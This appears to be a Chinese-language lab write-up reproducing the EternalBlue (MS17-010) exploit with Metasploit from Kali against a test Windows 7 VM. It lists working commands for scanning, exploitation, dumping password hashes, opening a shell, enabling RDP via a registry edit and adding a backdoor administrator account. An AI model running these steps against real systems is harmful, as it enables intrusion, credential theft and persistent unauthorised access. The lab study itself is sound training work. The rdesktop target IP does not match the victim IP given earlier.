# 永恒之蓝复现

##  环境搭建

### 各主机IP

- kali `192.168.226.130`
- windows7(x64) `192.168.226.129` 

### 环境配置

windows防火墙与自动更新关闭

![image-20241207183839443](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071838486.png)

## kali 攻击 windows7

### 进行攻击

首先通过`msfconsole`打开msf功能

```
msfconsole
```

![image-20241207184609461](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071846502.png)

然后搜索ms17-010脚本

```
search ms17-010
```

![image-20241207184306525](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071843625.png)

对靶机进行扫描，信息收集

```
use auxiliary/scanner/smb/smb_ms17_010
show options
```

![image-20241207184732415](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071847479.png)

接下来配置靶机IP信息，并运行

```
set rhosts 192.168.226.129
run
```

![image-20241207184830056](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071848087.png)

`exploit`切换到攻击模块，并配置靶机IP，运行

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.226.129
run
```

![image-20241207185012776](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071850840.png)

利用`hashdump`查看靶机的用户名与密码

```
hashdump
```

![image-20241207185619998](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071856022.png)

利用`shell`登录到靶机的Terminal界面

```
shell
```

![image-20241207185726507](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071857532.png)

即可以看到，永恒之蓝攻击成功

### 利用漏洞进行操作

**从kali上传图片到靶机**

```
upload /home/kali/Desktop/1.jpg c:\\
```

![image-20241207185914088](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071859115.png)

结果如下图所示，可以看到已经上传到windows7的系统中

![image-20241207190034335](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071900372.png)

### 远程桌面登录

在上面kali已经进入windows7的shell的基础上，开启3389远程桌面端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

查看端口是否开启

```
netstat -an
```

![image-20241207190836998](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071908057.png)

创建新用户，并为其添加管理员权限

```
net user hack 123123 /add
net localgroup administrators hack /add
```

![image-20241207190950244](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071909271.png)

然后利用新建的用户远程登陆windows7系统

```
rdesktop 192.168.112.128
```

![image-20241207191046631](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412071910725.png)
